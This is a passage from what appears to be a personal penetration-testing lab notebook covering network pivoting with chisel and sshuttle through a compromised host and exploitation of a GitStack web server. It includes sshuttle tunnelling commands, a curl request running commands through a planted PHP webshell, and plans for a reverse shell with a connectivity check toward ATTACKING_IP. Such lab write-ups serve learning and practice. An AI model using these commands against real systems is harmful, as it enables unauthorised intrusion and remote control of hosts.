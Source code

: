 LISTEN\_PORT is the port chisel started the server in and LOCAL\_PORT is the port we wish to use to leverage access

<div align="left"><figure><img src=".gitbook/assets/image (70).png" alt=""><figcaption></figcaption></figure></div>

#### Sshuttle

Uses an SSH connection to create a tunnelled proxy that acts like a new interface, like a VPN wo explicit proxy creation, also encrypted comms since using ssh

Need ssh access and python installed on rhost

```
sshuttle -r username@address subnet 
sshuttle -r user@172.16.0.5 172.16.0.0/24                    #use -N if don't want to specify subnet
sshuttle -r user@address --ssh-cmd "ssh -i KEYFILE" SUBNET   #use ssh-cmd to use key or perform any standard ssh syntax command
sshuttle -r user@172.16.0.5 172.16.0.0/24 -x 172.16.0.5      #use -x to exclude compromised target from subnet range if show error
```

### Git Server

<figure><img src=".gitbook/assets/image (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Now we can access 10.200.84.150 from our own machine w no extra setup crazy, if this wasn't there we would have to setup a proxy using proxychains or sum else

We can acess the http page directly from our browser now and redirects to a gitstacks page which has an exploit found on searchsploit

The python script also creates a PHP backdoor and allows us to pass commands&#x20;

cURL do be better than burp cus you gotta add extra headers to accept POST data

`Content-Type : application/x-www-form-urlencoded`

`curl -X POST http://10.200.84.150/web/exploit-tripz.php -d "a=systeminfo"`

Now, we can have a webshell, let's get a reverse to make it more interactive. From the whoami and other recon we know its a WIndows system so a nc reverse shell aint gonna work like that

To know if this system can interact with the internet, ping our system

```
tcpdump -i tun0 icmp        #CLI Wireshark
ping -n 3 ATTACKING_IP
```
